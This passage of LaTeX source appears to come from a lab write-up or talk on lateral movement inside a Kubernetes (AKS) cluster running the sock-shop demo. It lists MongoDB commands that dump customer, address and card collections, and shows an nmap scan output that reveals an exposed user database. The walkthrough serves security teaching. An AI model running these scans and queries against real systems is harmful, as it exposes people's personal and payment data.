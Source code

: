 Search for interesting data:
show dbs
use users
show collections
db.customers.find()
db.addresses.find()
db.cards.find()
\fi
LATERAL MOVEMENT AKS TEXT
\iffalse
\begin{lstlisting}
root@network-utils:/# nmap -p27017 --script mongodb-databases 10.0.1.75 -Pn

Starting Nmap 6.47 ( http://nmap.org ) at 2019-06-17 15:36 UTC
Nmap scan report for user-db.sock-shop.svc.cluster.local (10.0.1.75)
Host is up (0.000071s latency).
PORT      STATE SERVICE
27017/tcp open  mongodb
| mongodb-databases:
|   databases
|     0
|       sizeOnDisk = 49152
|       name = admin
|       empty = false
|     1
|       sizeOnDisk = 65536
|       name = local
|       empty = false
|     2
|       sizeOnDisk = 114688
|       name = users
|       empty = false
|   ok = 1
|_  totalSize = 229376


\end{lstlisting}
